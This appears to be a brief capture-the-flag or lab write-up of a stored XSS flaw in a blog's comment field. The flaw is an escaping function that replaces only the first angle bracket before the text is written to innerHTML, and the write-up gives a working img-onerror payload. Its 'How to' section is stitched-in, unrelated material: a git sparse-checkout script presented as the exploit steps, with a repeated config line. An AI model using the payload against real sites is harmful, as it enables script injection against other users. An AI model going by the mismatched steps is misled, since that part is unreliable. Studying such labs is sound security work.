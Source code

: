 # STORED XSS

## SYNOPSIS
- The target site is vulnerable within the comment fields
- WHen adding a comment to a certain blog post, the comments gets added to the current page
- Looking the source code, the app replaces '<' and '>' with HTML entitites which helps mitigate XSS
```
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```
- However, the escpaed HTML is passed on to an innerHTML 
```
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
                firstPElement.innerHTML = newInnerHtml
```

## Payload
```<><img src=1 onerror=alert(1)>```

## How to:
- run the script below 

```bash
# grabs the repo name
REPO_NAME="$(echo $2 | grep -oE '[^/]+$')"

git init $REPO_NAME
cd $REPO_NAME

git remote add origin $2
git config core.sparsecheckout true

# specify the sub directory
git config core.sparsecheckout true

# NOTE: MASTER BRANCH SHOULD EXISTS for the command below to work
git pull origin master
```


## Reference
HTML Entities
https://www.w3schools.com/HTML/html_entities.asp

